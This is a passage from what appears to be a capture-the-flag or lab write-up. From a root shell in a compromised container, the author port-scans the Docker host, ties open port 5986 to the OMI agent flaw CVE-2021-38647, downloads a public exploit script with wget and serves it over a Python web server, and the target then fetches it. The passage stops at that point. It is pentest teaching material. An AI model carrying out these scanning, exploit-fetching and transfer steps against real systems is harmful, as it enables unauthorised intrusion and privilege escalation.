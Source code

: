 ```
root@4a70924bafa0:/tmp# chmod +x nmap
chmod +x nmap
root@4a70924bafa0:/tmp# ./nmap -p- --min-rate 5000 172.17.0.1
./nmap -p- --min-rate 5000 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-07 11:18 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.0014s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:AB:4B:3D:B8 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 39.77 seconds
```

Notice that the port `5986` is opened and `5985` is closed. Take a small research and I find that these ports are related to the **OMI Agent** and the **CVE-2021-38647**. Read more from [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi).

From [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi) , it also leads me to the full exploit from this [source](https://github.com/horizon3ai/CVE-2021-38647). Then I keep download it to my local workspace → Transfer the binary to the target:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ wget https://raw.githubusercontent.com/horizon3ai/CVE-2021-38647/main/omigod.py
--2023-09-07 07:17:36--  https://raw.githubusercontent.com/horizon3ai/CVE-2021-38647/main/omigod.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2720 (2.7K) [text/plain]
Saving to: ‘omigod.py’

omigod.py                    100%[==============================================>]   2.66K  --.-KB/s    in 0s

2023-09-07 07:17:37 (63.6 MB/s) - ‘omigod.py’ saved [2720/2720]


┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.114.109 - - [07/Sep/2023 07:18:20] "GET /omigod.py HTTP/1.1" 200 -
```
